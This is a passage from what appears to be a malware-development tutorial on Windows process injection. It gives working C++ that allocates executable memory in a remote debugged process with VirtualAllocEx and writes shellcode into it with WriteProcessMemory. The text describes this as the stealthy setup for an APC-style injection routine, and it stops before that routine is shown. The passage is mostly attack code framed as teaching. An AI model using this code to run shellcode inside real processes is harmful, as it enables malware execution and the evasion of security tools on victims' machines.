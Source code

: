 ```cpp
}
```

As we can see we are using `sprintf` to concatenate the full path of our process getting the WINDIR environment variable is more convenient than hardcoding everything.

Also the empty placeholders for PID, Process Name and Thread handles are passed in order we can save the retrieved values of our debugged process because once the function exists we lose everything in `pi` variable.

# Injecting shellcode inside remote process memory

Next step after retrieving a handle to the target process we will be injecting our code in an EXECUTABLE region, we can use `VirtualAllocEx` directly or combine it with `VirtualProtect` for more stealthy approach:

```cpp
BOOL InjectShellcode(IN HANDLE* hProcess, IN PBYTE Shellcode, IN SIZE_T SizeofShellcode, OUT PVOID* ppAddress) {


  SIZE_T dwNumberofBbytesWritten;
  *ppAddress = VirtualAllocEx(*hProcess, NULL, SizeofShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  if (ppAddress == NULL) {
    printf("VirtualAlloc failed with error %x", GetLastError());
    return FALSE;
  }

  if (!WriteProcessMemory(*hProcess, *ppAddress, Shellcode, SizeofShellcode, &dwNumberofBbytesWritten) || dwNumberofBbytesWritten != SizeofShellcode) {

    printf("WriteProcessMemory failed with error %x", GetLastError());
    return FALSE;
  }

  return TRUE;

}
```

As we see the out parameter in this case is `ppAddress` the address of our shellcode.

For more explaniation of shellcode injection check past articles.

We have all what we need now,:

- A debugged process.
- A Handle to that process. 
- A Handle to one of its alertable-state threads.
- An executable address that hold injected shellcode.

Next we will need to implement the injection routine itself.
